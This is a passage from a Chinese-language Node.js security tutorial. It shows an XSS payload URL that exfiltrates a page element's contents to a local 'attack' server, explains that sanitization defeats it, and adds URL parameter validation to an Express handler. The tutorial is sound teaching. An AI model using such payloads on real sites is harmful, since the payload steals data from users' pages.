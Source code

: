    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/
    ```

你会观察到请求失败，数据收集服务器没有接收到特权数据。这是因为指向我们恶意服务器的链接已经被清理。

重要提示

本章介绍了 HTML 编码和可用于帮助转义 HTML 的模块。同样，对于转义 JavaScript，可以使用**jsesc**模块（[`www.npmjs.com/package/jsesc`](https://www.npmjs.com/package/jsesc)）。然而，将输入嵌入到 JavaScript 中通常被认为风险很高，因此你应该评估你这样做的原因。

### 参数验证

浏览器只能在地址栏中显示非常长 URL 的一部分。这意味着对于具有许多参数的非常长 URL，你可能看不到附加到 URL 末尾的内容。这使得识别恶意 URL 更具挑战性。

如果你的应用程序的典型使用不涉及非常长的 URL，那么为你的应用程序将接受的 URL 添加一些约束将是明智的。让我们现在就做这件事：

1.  将 **server.js** 文件复制到名为 **constraints-server.js** 的新文件中：

    ```js
    $ cp server.js constraints-server.js
    ```

1.  在 **constraints-server.js** 文件中定义一个 **validateParameters()** 函数，用于验证 URL 参数：

    ```js
    const validateParameters = ({ previous, token, lang },
      query) => {
        return (
          Object.keys(query).length <= 3 &&
          typeof lang === 'string' &&
          lang.length === 2 &&
          typeof token === 'string' &&
          token.length === 16 &&
          typeof previous === 'string' &&
          previous.length <= 16
        );
    };
    ```

1.  现在，我们需要在我们的请求处理器中调用 **validateParameters()** 函数。将请求处理器更改为以下内容：

    ```js
    app.get('/', (req, res) => {
      const { previous, lang, token } = req.query;
      if (!validateParameters({ previous, token, lang },
        req.query)) {
          res.sendStatus(422);
          return;
        }
      getServiceStatus((status) => {
        res.send(`
          <h1>Service Status</h1>
          <div id=status>
            ${status}
          </div>
          <div>
          <a href="${previous}${token}/${lang}">Back</a>
          </div>
        `);
      });
    });
    ```
